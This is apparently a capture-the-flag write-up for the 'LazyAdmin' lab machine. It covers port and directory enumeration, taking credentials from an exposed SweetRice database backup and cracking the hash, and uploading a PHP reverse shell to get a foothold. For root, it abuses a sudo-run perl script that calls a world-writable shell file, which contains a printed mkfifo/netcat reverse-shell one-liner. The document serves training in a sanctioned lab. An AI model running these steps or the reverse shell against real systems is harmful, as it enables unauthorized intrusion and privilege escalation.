








# LazyAdmin

## Enumeration

We starting enumarating the open port with *nmap*.

```shell
$ sudo nmap -p- -n -Pn -sS --min-rate 2000 $IP
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-11 23:07 -05
Warning: 10.10.141.185 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.141.185
Host is up (0.41s latency).
Not shown: 65468 closed tcp ports (reset), 65 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 74.33 seconds
```

Wee see a default *apache* page, we will fuzz with *gobuster* to find directories.

```shell
$ gobuster dir -u http://10.10.141.185/ -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.141.185/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/.htaccess            (Status: 403) [Size: 278]
/content              (Status: 301) [Size: 316] [--> http://10.10.141.185/content/]
/index.html           (Status: 200) [Size: 11321]
/server-status        (Status: 403) [Size: 278]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```

We fin the **content** dorectory.



## Vulnerability Exploitation

This home page gives us a clue, **SweetRice**. searching we find that **SweetRice** is simple website management system, its github is https://github.com/sweetrice/SweetRice.



The 2 important directories are **as** and **inc**.

In **as** we can find a login page, then we need find crendentials.



In **inc** we can find a list of files and directories, and we can see a backip in the mysql_backup directory.



Downliad the sql file, we can use: `wget http://10.10.141.185/content/inc/mysql_backup/mysql_bakup_20191129023059-1.5.1.sql`. and we can find a user and hahed password.

```shell
$ grep admin mysql_bakup_20191129023059-1.5.1.sql 
14 => 'INSERT INTO `%--%_options` VALUES(\'1\',\'global_setting\',\'a:17:{s:4:\\"name\\";s:25:\\"Lazy Admin&#039;s Website\\";s:6:\\"author\\";s:10:\\"Lazy Admin\\";
s:5:\\"title\\";s:0:\\"\\";s:8:\\"keywords\\";s:8:\\"Keywords\\";s:11:\\"description\\";s:11:\\"Description\\";s:5:\\"admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";
s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\";s:5:\\"close\\";i:1;s:9:\\"close_tip\\";s:454:\\"<p>Welcome to SweetRice - Thank your for install SweetRice as your website
management system.</p><h1>This site is building now , please come late.</h1><p>If you are the webmaster,please go to Dashboard -> General -> Website setting </p><p>and
uncheck the checkbox \\"Site close\\" to open your website.</p><p>More help at <a href=\\"http://www.basic-cms.org/docs/5-things-need-to-be-done-when-SweetRice-installed
\\">Tip for Basic CMS SweetRice installed</a></p>\\";s:5:\\"cache\\";i:0;s:13:\\"cache_expired\\";i:0;s:10:\\"user_track\\";i:0;s:11:\\"url_rewrite\\";i:0;s:4:\\"logo\\"
s:0:\\"\\";s:5:\\"theme\\";s:0:\\"\\";s:4:\\"lang\\";s:9:\\"en-us.php\\";s:11:\\"admin_email\\";N;}\',\'1575023409\');',
```

| user    | hahed password                   |
|---------|----------------------------------|
| manager | 42f749ade7f9e195bf475f37a44cafcb |

We use https://crackstation.net/ to cracker the hash and logging.



Scanning the website we found that we can add files in the **ads** section. and we add the rever shell of pentestmonkey from https://www.revshells.com/.



The revsehll file is in **/inc/ads/** directory.



We execute the rever shell and we are inside the machine.

```shell
$ sudo nc -lvnp 443
listening on [any] 443 ...
connect to [10.8.100.192] from (UNKNOWN) [10.10.141.185] 50254
Linux THM-Chal 4.15.0-70-generic #79~16.04.1-Ubuntu SMP Tue Nov 12 11:54:29 UTC 2019 i686 i686 i686 GNU/Linux
 08:08:07 up  1:04,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

We can read the user flag in /home/itguy and we can see something else, we can exexute **backup.pl**.

```shell
www-data@THM-Chal:/home/itguy$ ls -al
total 148
drwxr-xr-x 18 itguy itguy 4096 Nov 30  2019 .
drwxr-xr-x  3 root  root  4096 Nov 29  2019 ..
...
-rw-r--r-x  1 root  root    47 Nov 29  2019 backup.pl
-rw-r--r--  1 itguy itguy 8980 Nov 29  2019 examples.desktop
-rw-rw-r--  1 itguy itguy   16 Nov 29  2019 mysql_login.txt
-rw-rw-r--  1 itguy itguy   38 Nov 29  2019 user.txt
```

## Privilege Escalation

If we can see the user's privileges.

```shell 
www-data@THM-Chal:/home/itguy$ sudo -l
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```

We can execute the file we found and perl as root, but we can't write to the file, we'll check that.

```shell
www-data@THM-Chal:/home/itguy$ cat /home/itguy/backup.pl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
www-data@THM-Chal:/home/itguy$
www-data@THM-Chal:/home/itguy$ cat /etc/copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
www-data@THM-Chal:/home/itguy$
www-data@THM-Chal:/home/itguy$ ls -al /etc/copy.sh
-rw-r--rwx 1 root root 81 Nov 29  2019 /etc/copy.sh
www-data@THM-Chal:/home/itguy$ 
```

The **backup.pl** file execute the **copy.sh** file and we can **write** in **copy.sh**, and this file is a rever shell, we change the ip for our ip.


